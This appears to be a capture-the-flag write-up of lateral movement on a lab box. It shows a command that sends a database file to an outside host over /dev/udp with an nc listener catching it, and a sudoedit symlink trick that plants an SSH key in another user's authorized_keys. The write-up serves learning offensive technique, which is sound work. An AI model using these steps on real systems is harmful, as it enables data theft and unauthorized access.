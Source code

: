 <hr>

# Lateral Movement

- After getting a shell as `Werkzeug` , I land in `/var/www`. I see here 3 files and directories.
```shell
$ ls -la
manage-shorty.py shorty/ testing/
```

## Checking `shorty.db` 

- The `manage-shorty.py` files shows the location of the `db` file at `/var/www/shorty/shorty.db`.
- Its unlikely that this file would contain any user data, as their was no login or register location in the app.
- Still, to check this, I transfer it to my machine:
```shell
$ cat shorty.db > /dev/udp/10.10.14.25/9002 
```

To catch this file : 
```shell
$ nc -lnvp 9002 -u | tee shorty.db
```

- Now, reading this file with `sqlite3` , it only has a single table called `urls` with no entries.

##  `sudo -l`

- Checking `sudo -l`, we have access to run `sudoedit` as `alekos` for a file located at `/var/www/*/*/layout.html`
- Since it was a python application, my first thought was to exploit `SSTI` by injecting a reverse shell , but the file at `/var/www/shorty/templates/layout.html` was owned by `root` , and also **It won't be of any use as I would get the same shell as `Werkzeug`**.
- I have complete access over `/var/www/testing/` directory.

## `Sudoedit`

- I create a symbolic link under `/var/www/testing/conner/` to `/home/alekos/.ssh/authorized_keys` names as `layout.html` 
- This satisfies the entry under `sudo -l`.
- Now, since I have edit access for `layout.html` as `alekos`, I can edit the designated file of symbolic link `authorized_keys` as it is owned by `alekos` , and add my `public_key` to this file.
- Finally, I can just `SSH` into the box as `alekos` using my `SSH Key`.

# Privilege Escalation

- The home directory of `alekos` had two folders : `development` and `backup` 
- The `backup` folder contains `.tar.gz` of the `development` folder created every 5 minutes.
- These backups have to be created using a cron script owned by root, as all the files inside `backup` are owned by `root`.
